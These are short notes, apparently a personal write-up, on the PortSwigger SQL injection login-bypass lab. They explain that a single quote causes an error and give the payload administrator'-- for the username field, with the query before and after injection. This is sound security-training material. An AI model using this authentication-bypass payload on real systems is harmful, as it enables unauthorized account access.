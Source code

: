 https://portswigger.net/web-security/sql-injection/lab-login-bypass

We can confirm it's vulnerable because the single qoute is causing an error
![[Pasted image 20241107112412.png]]
But we will send this payload `administrator'--` in the username field, and the password doesn't care, because the query behind it is this:
```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```
So if we commited all the data after we could login
```sql
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
```